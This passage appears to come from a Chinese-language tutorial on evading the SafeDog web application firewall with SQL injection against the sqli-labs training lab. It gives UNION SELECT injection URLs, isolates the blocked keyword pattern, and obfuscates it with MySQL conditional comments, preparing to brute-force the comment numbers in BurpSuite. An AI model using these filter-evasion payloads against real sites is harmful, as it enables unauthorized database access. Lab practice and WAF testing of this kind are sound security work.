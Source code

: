 > 成功绕过
>
> 响应时间 2 秒加 sleep 时间 3 秒，刚好是 5 秒

### 1.2 新版本的安全狗绕过

### 1.2.1 条件注释绕过

提交参数

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

> 被拦截

逐个删除字符，得到拦截语法为 `union selec`

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union selec
```

加条件注释

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*!11440*//*!11440select*/
```

> 发现依然拦截

### 1.2.1.1 特殊函数爆破

在 BurpSuite 开启拦截

在语句之间的注释添加数字 1，2

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*12*//*!11440select*/
```

在 HackBar 提交

![在 HackBar 提交](./../../../../images/SQL%20%E6%B3%A8%E5%85%A5%E5%85%8D%E6%9D%80/%E5%9C%A8%20HackBar%20%E6%8F%90%E4%BA%A4.png)
